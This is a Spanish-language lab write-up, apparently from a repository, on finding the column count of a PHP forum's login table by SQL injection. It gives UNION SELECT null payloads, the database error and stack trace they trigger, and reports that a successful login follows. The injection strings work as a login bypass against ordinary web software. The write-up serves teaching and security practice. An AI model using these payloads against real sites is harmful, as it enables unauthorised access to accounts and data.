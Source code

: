 ## Averiguando el número de columnas de la tabla que usa el login
Es necesario saber el número de columnas que tiene la tabla de la que parte el formulario de login para poder hacer el ataque. Vamos probando metiendo null en la sentencia hasta que deje de dar el error de las diferentes número de columnas:

Inyección →
```
999' UNION select null  FROM information_Schema.columns, information_Schema.tables WHERE information_Schema.tables.table_name = information_Schema.columns.table_name; #
```

Vamos obteniendo errores 
```
Notice: Use of undefined constant forum - assumed 'forum' in C:\xampp\htdocs\foro\libraries\User.php on line 9
Fatal error: Uncaught PDOException: SQLSTATE[21000]: Cardinality violation: 1222 The used SELECT statements have a different number of columns in C:\xampp\htdocs\foro\libraries\Database.php:56 Stack trace: #0 C:\xampp\htdocs\foro\libraries\Database.php(56): PDOStatement->execute() #1 C:\xampp\htdocs\foro\libraries\Database.php(65): Database->execute() #2 C:\xampp\htdocs\foro\libraries\User.php(69): Database->single() #3 C:\xampp\htdocs\foro\login.php(11): User->login('999' UNION sele...', 'd41d8cd98f00b20...') #4 {main} thrown in C:\xampp\htdocs\foro\libraries\Database.php on line 56
```
![](capturas/sql-injection-lab2.png)


Continuamos metiendo null hasta que pase a darnos otro tipo de error o de el resultado esperado, que conseguimos loguearnos:
Inyección →
```
999' UNION select null, null, null, null, null, null, null, null, null FROM information_Schema.columns, information_Schema.tables WHERE information_Schema.tables.table_name = information_Schema.columns.table_name; #
```
![](capturas/sql-injection-lab2-2.png)